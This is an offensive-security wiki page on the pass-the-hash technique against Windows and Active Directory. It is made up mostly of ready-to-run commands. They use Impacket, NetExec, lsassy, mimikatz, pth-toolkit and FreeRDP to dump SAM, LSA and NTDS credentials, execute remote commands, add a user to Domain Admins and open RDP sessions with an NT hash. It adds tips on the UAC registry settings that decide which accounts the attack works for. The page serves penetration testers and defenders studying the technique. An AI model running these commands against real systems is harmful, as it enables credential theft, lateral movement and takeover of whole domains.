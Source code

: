 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with [overpass-the-hash](../kerberos/ptk.md)).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) (Python) ([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...), [NetExec](https://github.com/Pennyw0rth/NetExec) (Python), [FreeRDP](https://github.com/FreeRDP/FreeRDP) (C), [mimikatz](https://github.com/gentilkiwi/mimikatz) (C), [lsassy](https://github.com/Hackndo/lsassy) (Python), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) has the ability to remotely dump hashes and LSA secrets from a machine (`LMhash` can be empty) (see [dumping credentials from registry hives](../credentials/dumping.md#windows-computer-registry-hives)).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping.md#windows-computer-registry-hives)).

```bash
netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [NetExec](https://github.com/Pennyw0rth/NetExec) module (see [dumping credentials from lsass process memory](../credentials/dumping.md#windows-computer-lsass-exe)).

```bash
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash (`LMhash` can be empty).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets

```bash
netexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
netexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can pass-the-hash and open an elevated command prompt.

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) can be used from a Linux system to operate LDAP queries, add a user to a group and so on (`LMhash` can be `ffffffffffffffffffffffffffffffff`).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) (C) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

### Limitations, tips and tricks

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC (User Account Control) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account (RID-500, "Administrator") to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights (such as [SAM & LSA secrets dump](../../../redteam/credentials/dumping/os-credentials/windows-and-active-directory/sam-and-lsa-secrets.md)). These operations can instead be conducted with a [Silver Ticket](../kerberos/forged-tickets/#silver-ticket) since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes (NTDS.dit)](broken-reference/).
{% endhint %}

## References

{% embed url="https://en.hackndo.com/pass-the-hash/" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

